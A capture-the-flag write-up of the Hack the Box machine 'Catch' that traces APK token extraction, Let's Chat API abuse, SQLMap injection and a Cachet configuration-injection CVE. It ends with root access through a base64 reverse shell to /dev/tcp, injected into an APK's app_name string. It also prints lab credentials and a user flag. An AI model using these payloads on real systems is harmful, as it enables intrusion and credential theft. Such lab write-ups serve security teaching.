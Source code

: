```yaml
---
layout: post
title: "Hack the Box: Catch"
tags:
    - CTF
    - HTB
---
```


Catch is a great example of applying basic APK reversing and CVE exploitation. It's an application that's intended to integrate Gitea and Let's Chat and makes the mistake of using hard-coded credentials and an insecure dashboard.

MACHINE NAME: [Catch](https://app.hackthebox.com/machines/Catch)

IP: 10.10.11.150

DIFFICULTY: Medium

## osint

Starting with an Nmap scan revealed a number of services running on the target.

```bash
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
3000/tcp open  ppp?    syn-ack
5000/tcp open  upnp?   syn-ack
```

Interestingly, there were two different Apache services, both on different versions, as well as another two ports that were not identified.

Cookies fetched by an Nmap script showed that there was a Gitea server running on port 3000. But the other ports were still unknown.

```bash
Set-Cookie: i_like_gitea=a9634c3d8acdc09d; Path=/; HttpOnly
```

Opening each of the pages in a web browser helped to identify these other services.

The main page on port 80 was a simple landing page for 'Catch Global Systems', allowing the user to download an APK file. This would have to be further investigated.

Port 3000 was running Gitea version 1.14.1 with Go 1.16.3 and port 5000 was running [Let's Chat](https://github.com/sdelements/lets-chat). Both of these were locked with passwords and default credentials did not work.

The last page of interest was a monitoring dashboard running on port 8000 which appeared to be based on Cachet 2.4. Some background research found a few different CVEs which could be useful however they all required an authenticated user and would not be useable at this point.


## reverse-engineering

Going back to the APK that was found, Apktool can be used to decompile the binary so that the source code can be browsed in another application such as VSCode.

```bash
apktool d ./catchv1.0.apk
```

According to the landing page that was found earlier, "The future enhancements [include] Lets-chat/Gitea integration", hinting that there could be API keys or hard-coded credentials in the application to integrate these services.

After looking around, there was one file that stood out based on its contents.

```bash
original/res/values/strings.xml
```

This file contained variables controlling the application name among other things as well as 3 different API keys; Gitea, Let's Chat and Slack.

```bash
<string name="gitea_token">b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0</string>

<string name="lets_chat_token">NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==</string>

<string name="slack_token">xoxp-23984754863-2348975623103</string>
```

## exploitation

Of the 3 tokens, only one seemed to work, which was Let's Chat. Following the [API documentation on Github](https://github.com/sdelements/lets-chat/wiki/API), Curl could be used to fetch the open rooms.

```bash
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```
```bash
61b86b28d984e2451036eb17 Status
61b8708efe190b466d476bfb Android Development
61b86b3fd984e2451036eb18 Employees
```

And this information could be used to then read messages from the rooms.

```bash
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

```bash
"ah sure!"
"You should actually include this task to your list as well as a part of quarterly audit"
"Also make sure we've our systems, applications and databases up-to-date."
"Excellent!"
"Why not. We've this in our todo list for next quarter"
"@john is it possible to add SSL to our status domain to make sure everything is secure ?"
"Here are the credentials `john :  E}V!mywu_69T4C}W`"
"Sure one sec."
"Can you create an account for me ?"
"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me."
```

This conversation revealed some credentials for the status page on port 8000. Testing these credentials on other pages showed that they are only used on this one page.

```bash
"Here are the credentials `john :  E}V!mywu_69T4C}W`"
```

Using SQLMap, it was possible to dump some more API keys from the database however they did not end up being necessary.

```bash
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump

+----------------------+----------+
| api_key              | username |
+----------------------+----------+
| 7GVCqTY5abrox48Nct8j | john     |
| rMSN8kJN9TPADl2cWv8N | admin    |
+----------------------+----------+
```

Instead, using a CVE for Cachet 2.4, detailed in [this blog post](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection/), it was possible to dump the username and password of the configured MySQL database user.

Inputting these strings into the 'Mail From Address' field under settings and mail, and refreshing the page, returned the name and password of the user.

```bash
${DB_USERNAME} = will

${DB_PASSWORD} = s2#4Fg0_%3!
```

Now finally, with this information it is possible to connect with SSH and login as Will to read the user flag.

```bash
User Flag: 794e64d1eb9b77178f53792d5a0b60e8
```

## privilege escalation

The server was running a wildcard cronjob to execute the APKs in /opt/mdm/apk_bin so it was possible to recompile the apk with shellcode which would be run as a privileged user.

Adding the shellcode to "app_name" gave arbitrary code execution which could be used to start a reverse shell.
```bash
/bin/bash -l > /dev/tcp/10.10.14.98/9001 0<&1 2>&1
```

(strings.xml with Base64 encoded shell code)
```bash
Strings.xml
<string name="app_name">Catch; echo L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuOTgvOTAwMSAwPCYxIDI+JjEK | base64 -d | bash -i</string>
```

And a reverse listener could be started using Netcat on the local machine before uploading the APK to the server.

```bash
nc -lvp 9001
scp out.apk will@10.10.11.150:/opt/mdm/apk_bin/
```

```bash
listening on [any] 9001 ...
connect to [10.10.14.98] from status.catch.htb [10.10.11.150] 36122

> id
uid=0(root) gid=0(root) groups=0(root)
> ls
Catch
lets-chat
mdm
reset.sh
root.txt
run.sh
```